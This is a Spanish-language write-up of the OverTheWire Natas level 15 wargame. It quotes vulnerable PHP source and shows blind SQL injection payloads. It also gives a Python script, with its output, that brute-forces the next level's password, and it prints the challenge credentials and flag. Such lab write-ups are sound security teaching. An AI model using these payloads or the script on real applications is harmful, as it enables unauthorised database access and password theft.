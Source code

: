 #Natas Level 14 → Level 15

Username: natas15

URL:      http://natas15.natas.labs.overthewire.org

##Write Up Iker

Abrimos un navegador y nos conectamos a la página: 

- **URL        : http://natas15.natas.labs.overthewire.org** 
- **Usuario    : natas15**
- **Contraseña : AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J**

La contraseña la hemos sacado del nivel anterior.

Accedemos a la página y nos muestra un campo en el que tenemos que meter un **usuario** y el programa comprueba si existe en la base de datos o no.

Probamos a meter el usuario **natas15** y nos indica que **NO** existe.

```html
This user doesn't exist.
```
Probamos a meter el usuario **natas16** y nos indica que **SI** existe.

```html
This user exists.
```

Tenemos que conseguir que nos saque por pantalla la contraseña del usuario **natas16** haciendo **SQL Injection** sobre el parámetro **username**

Para ello vamos a ver el código fuente y ver como podemos solucionar el reto.

Vemos que se crea una tabla llamada **users** con los parámetros **username** y **password** 

```sql
CREATE TABLE `users` ( 
  `username` varchar(64) DEFAULT NULL, 
  `password` varchar(64) DEFAULT NULL 
); 
```

Con el código anterior ya y sabiendo que se conecta a la **BBDD** llamada **natas15**, podemos empezar a trabajar en nuestra **$query**.
```sql
 mysql_select_db('natas15', $link); 
```

```php
if(array_key_exists("username", $_REQUEST)) 
{ 
    $link = mysql_connect('localhost', 'natas15', '<censored>'); 
    mysql_select_db('natas15', $link); 
     
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\""; 
    
    if(array_key_exists("debug", $_GET)) 
    { 
        echo "Executing query: $query<br>"; 
    } 

    $res = mysql_query($query, $link); 
    if($res) 
    { 
        if(mysql_num_rows($res) > 0) 
        { 
            echo "This user exists.<br>"; 
        } 
        else 
        { 
            echo "This user doesn't exist.<br>"; 
        } 
    } 
    else 
    { 
        echo "Error in query.<br>"; 
    } 

    mysql_close($link); 
```

Query ejecutada:

```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\""; 
```

Si metemos el parámetro **" OR "1"="1** nos indica que **This user exists.** la que la consulta es un **True** pero no nos sirve de mucho.

¿Como lo hacemos? 

Esta prueba me suena que puede ser un reto de **BLIND SQL Injection**. 

**Blind SQL injection**, es una técnica de ataque que utiliza la inyección SQL. Su evidencia cuando en una página web, por una falla de seguridad, no se muestran mensajes de error al no producirse resultados correctos ante una consulta a la base de datos, mostrándose siempre el mismo contenido (es decir, solo hay respuesta si el resultado es correcto).

En nuestro caso nos dice si el usuario existe o no existe con mensajes **This User Exists** o **This user doesn't exist**

Como en esta ocasión tenemos un solo campo, tenemos que agregar más código al parámetro **Username** para que nos permita jugar con el parámetro **password**

Para ello tendremos que crear algo así:

```php
natas16" AND password ...
````

La técnica de Blind SQL Injection nos va a permitir recibir mensajes de usuario **correcto** o **incorrecto** dependiento de los argumentos que les pasemos, por lo tanto tenemos que crear una consulta para el parámetro **password** que nos indique si la contraseña esta bien o mal.

Mejor que esté bien o mal, vamos a optar por indicarle si la contraseña **contiene** o **empieza** con algún caracter. 

Para eso utilizaremos la opción de sql **LIKE BINARY** que nos indica si una cadena de caracteres específica coincide con un patrón especificado. En este casi si la contraseña empieza con el valor **a**

```php
natas16" AND password LIKE BINARY "a%";# "
```

- Si la respuesta es **This user exists** significa que la contraseña del usuario **natas16** empieza por **a.........**
- Si la respuesta es **This user doesn't exist** significa que la contraseña no empieza por esa letra.

Hacer esto a mano sería una autentica tortura, así que haciendo uso de un script en **python** hacemos un programa que automatice todo este proceso. 

Sabemos que tenemos que conseguir una contraseña de **32 caracteres** de longitud

Lo llamaremos **BlindNatas15Injector.py**

```python
import httplib2
import urllib

 
h = httplib2.Http()
h.add_credentials('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J')
 
passTemporal     = "";
letras           = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
posicion = 0

while posicion < len(letras):
        query = urllib.urlencode(dict(username="natas16\" AND password LIKE BINARY \"" + passTemporal + letras[posicion] + "%\" ;# "))
        resp, contenido = h.request("http://natas15.natas.labs.overthewire.org/index.php?" + query, method="POST")
        if ("This user exist" in str(contenido)):
                passTemporal += letras[posicion];
                print("Nueva password encontrada: " + passTemporal)
                posicion = 0
                if (len(passTemporal)==32):
                        break;
                continue
        posicion += 1

print "-"*70
print "Password Natas16 = {0}".format(passTemporal)
print "-"*70
```

Ejecutamos el script y vamos viendo por la consola como van apareciendo los caracteres que han coincidido con las letras que tiene la contraseña. Tenemos que esperar hasta que la longitud sea de **32**

```bash
ikerburguera@MacBook-Pro-de-Iker:~/Desktop$ python blindNatas15Injector.py 
Nueva password encontrada: W
Nueva password encontrada: Wa
Nueva password encontrada: WaI
Nueva password encontrada: WaIH
Nueva password encontrada: WaIHE
Nueva password encontrada: WaIHEa
Nueva password encontrada: WaIHEac
Nueva password encontrada: WaIHEacj
Nueva password encontrada: WaIHEacj6
Nueva password encontrada: WaIHEacj63
Nueva password encontrada: WaIHEacj63w
Nueva password encontrada: WaIHEacj63wn
Nueva password encontrada: WaIHEacj63wnN
Nueva password encontrada: WaIHEacj63wnNI
Nueva password encontrada: WaIHEacj63wnNIB
Nueva password encontrada: WaIHEacj63wnNIBR
Nueva password encontrada: WaIHEacj63wnNIBRO
Nueva password encontrada: WaIHEacj63wnNIBROH
Nueva password encontrada: WaIHEacj63wnNIBROHe
Nueva password encontrada: WaIHEacj63wnNIBROHeq
Nueva password encontrada: WaIHEacj63wnNIBROHeqi
Nueva password encontrada: WaIHEacj63wnNIBROHeqi3
Nueva password encontrada: WaIHEacj63wnNIBROHeqi3p
Nueva password encontrada: WaIHEacj63wnNIBROHeqi3p9
Nueva password encontrada: WaIHEacj63wnNIBROHeqi3p9t
Nueva password encontrada: WaIHEacj63wnNIBROHeqi3p9t0
Nueva password encontrada: WaIHEacj63wnNIBROHeqi3p9t0m
Nueva password encontrada: WaIHEacj63wnNIBROHeqi3p9t0m5
Nueva password encontrada: WaIHEacj63wnNIBROHeqi3p9t0m5n
Nueva password encontrada: WaIHEacj63wnNIBROHeqi3p9t0m5nh
Nueva password encontrada: WaIHEacj63wnNIBROHeqi3p9t0m5nhm
Nueva password encontrada: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
-------------------------------------------------------------------
Password Natas16 = WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
-------------------------------------------------------------------
```

**FLAG** = {WaIHEacj63wnNIBROHeqi3p9t0m5nhmh}










